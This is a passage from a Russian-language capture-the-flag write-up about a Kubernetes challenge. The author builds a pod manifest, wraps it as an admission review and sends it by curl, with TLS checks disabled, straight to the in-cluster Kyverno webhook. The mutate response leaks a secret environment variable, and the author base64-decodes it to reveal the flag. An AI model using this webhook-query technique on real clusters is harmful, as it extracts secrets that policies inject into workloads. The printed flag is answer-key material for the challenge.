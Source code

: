 Теперь создал манифест пода, чтобы он зацепил эту полиси:

```
k run -n sensitive-ns nginx --image nginx --dry-run -oyaml > test.yaml
```

После этого сгенерировал ревью:

```
./kube-review-linux-amd64 create test.yaml 
```

Вернулся в челендж, вставил сгенерённый ревью в файл `a.json` и отправил на работу в Киверно. Я подозревал, что мне нужен `mutate`, но решил пробовать все пути.

```
curl -X POST -v -k --header 'Content-Type: application/json' https://kyverno-svc.kyverno.svc.cluster.local./validate -d @a.json
```

Это не удалось.

```
curl -X POST -v -k --header 'Content-Type: application/json' https://kyverno-svc.kyverno.svc.cluster.local./mutate -d @a.json
```

Это вернуло патч манифеста. Декодировав текст я получил последний ключ:

```
echo YW1lIjoiRkxBRyIsInZhbHVlIjoid2l6X2s4c19sYW5fcGFydHl7eW91LWFyZS1rOHMtbmV0LW1hc3Rlci13aXRoLWdyZWF0LXBvd2VyLXRvLW11dGF0ZS15b3VyLXdheS10by12aWN0b3J5fSJ9XX0sIHsicGF0aCI6Ii9tZXRhZGF0YS9hbm5vdGF0aW9ucyIsIm9wIjoiYWRkIiwidmFsdWUiOnsicG9saWNpZXMua3l2ZXJuby5pby9sYXN0LWFwcGxpZWQtcGF0Y2hlcyI6ImluamVjdC1lbnYtdmFycy5hcHBseS1mbGFnLXRvLWVudi5reXZlcm5vLmlvOiBhZGRlZCAvc3BlYy9jb250YWluZXJzLzAvZW52XG4ifX1d | base64 -d
ame":"FLAG","value":"wiz_k8s_lan_party{you-are-k8s-net-master-with-great-power-to-mutate-your-way-to-victory}"}]}, {"path":"/metadata/annotations","op":"add","value":{"policies.kyverno.io/last-applied-patches":"inject-env-vars.apply-flag-to-env.kyverno.io: added /spec/containers/0/env\n"}}]
```

И это всё, вот сертификат. 
